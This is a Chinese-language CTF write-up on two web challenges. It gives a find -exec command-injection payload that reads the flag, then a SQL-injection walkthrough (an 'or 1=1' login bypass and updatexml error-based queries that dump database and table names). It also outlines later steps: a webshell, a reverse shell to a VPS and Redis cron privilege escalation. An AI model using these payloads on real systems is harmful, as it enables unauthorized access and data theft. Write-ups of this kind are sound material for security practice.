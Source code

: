 ##  search

### 考点

就是一个对`find`的命令了解,参数exec可以实现命令

###  wp

payload

```php
/search.php?search=flag -exec cat {} \;
```

## google authenticator

###  考点

1. sql注入，拿到secret的密钥
1. google身份验证码的实现
1. 蚁剑连接，无权限，进行信息收集
1. 蚁剑反弹shell到vps
1. 非交互式shell变为交互式shell的两种方式
1. 写定时任务redis提权

###  wp

看到登录界面，扫一波，没有东西

尝试进行sql注入

先来个万能密码登录,`username=1' or 1=1#&password=123456`

有个`/google_authenticator.php`

我们访问，需要google验证码，似乎没有利用点了

所以我们继续sql注入，看到报错信息，利用报错注入

获取数据库

```
username=1' and (updatexml(1,concat(0x7e,(select database()),0x7e),1))#&password=123456

actf_is_fun
```

获取表

```
username=1' and (updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='actf_is_fun'),0x7e),1))#&password=123456

users
```
